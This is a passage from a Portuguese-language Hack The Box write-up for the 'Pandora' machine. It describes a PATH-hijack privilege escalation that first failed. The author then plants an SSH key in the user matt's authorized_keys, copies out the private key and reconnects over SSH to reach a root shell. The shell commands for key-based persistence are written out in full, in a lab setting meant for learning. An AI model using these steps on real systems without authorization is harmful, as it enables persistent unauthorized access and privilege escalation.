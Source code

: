 ![pathhijacknotwork](Assets/HTB-Linux-Easy-Pandora/pathhijacknotwork.png)

#### Não funcionou! Porquê?

Sinceramente não sei, o que sei é que pelo ssh funcionou nesta máquina... Quando vi que não funcionou, procurei outra solução. criei uma chave id_rsa só para ter melhor conexão, conectei-me via SSH e o mesmo exploit funcionou... OK. Mistérios do Hacking!

```bash
ssh-keygen
cd /home/matt/.ssh
cat id_rsa.pub > authorized_keys
cat id_rsa
# Copiar o conteúdo e colar num novo ficheiro no nosso kali
kali@kali: >     nano id_rsa
kali@kali: >     # Colar e gravar
kali@kali: >     chmod 600 id_rsa
kali@kali: >     ssh matt@10.10.11.136 -i id_rsa
```

E agora, exatamente da mesma posição, alterando primeiro a variável PATH, optemos uma shell root
